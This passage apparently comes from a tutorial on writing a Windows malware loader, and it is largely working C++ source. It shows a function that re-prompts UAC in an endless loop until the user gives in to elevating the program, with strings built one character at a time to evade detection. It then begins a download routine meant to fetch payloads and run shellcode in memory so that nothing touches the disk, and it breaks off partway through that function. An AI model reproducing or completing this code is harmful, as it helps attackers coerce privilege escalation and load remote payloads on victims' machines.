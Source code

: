 Now let's make the privilege enhancement functionality by flooding the UAC window. As you can see, in this function, strings are formed by character-by-character push on the stack, such an uncomplicated obfuscation method will simplify the completion of the loader for assembly into shellcode and allow us to hide the strings from outsiders.

```
bool ElevateUAC(LPCWSTR file_path) {
    bool ret = false;
    WCHAR wmic_path[1025] = { 0 };

    do
    {
        WCHAR wmic_env_str[] = { '%', 'w', 'i', 'n', 'd', 'i', 'r', '%', '\\', 's', 'y', 's', 't', 'e', 'm', '3', '2', '\\', 'w', 'm', 'i', 'c', '.', 'e', 'x', 'e', 0, 0 };

        if (!ExpandEnvironmentStringsW(wmic_env_str, wmic_path, 1025)) {
            DBGPRINT(L"File %s, line %d, ExpandEnvironmentStringsW error %d", __FILEW__, __LINE__, GetLastError());
            break;
        }

        WCHAR runas_str[] = { 'r', 'u', 'n', 'a', 's', 0, 0};
        WCHAR format_str[] = { 'p', 'r', 'o', 'c', 'e', 's', 's', ' ', 'c', 'a', 'l', 'l', ' ', 'c', 'r' ,'e','a','t','e', '"', '%', 's', '"', 0, 0 };
        WCHAR wmic_args[1025] = { 0 };

        wsprintfW(wmic_args, format_str, file_path);

        while (true) {
            if (ShellExecuteW(0, runas_str, file_path, nullptr, nullptr, SW_HIDE) >= (HINSTANCE)32) {
                ret = true;
                break;
            }
        }
    } while (FALSE);

    return ret;
}
```

We will run in a loop %WINDIR%\System32\wmic.exe using the runas method, passing the parameters to process call create "%current_path%", where %current_path% is the path to our file.
If ShellExecute returns a value that is less than or equal to 32, it means that the user rejected the UAC request and we should restart it.

Now let's start implementing the functionality for interacting with the network. Here we will have two functions, one for downloading a file and then saving it to disk, and the second for saving the file to dynamic memory.
We will need the second one to run the shellcodes, because they should not touch the disk and will run in the memory of the loader process:

```
bool DownloadFile(
    __in LPCWSTR url,
    __in LPCWSTR file_path
) {
    BOOL ret = false;
    HINTERNET inet_handle = 0;
    HINTERNET url_handle = 0;
    HANDLE file_handle = 0;

    do
    {
```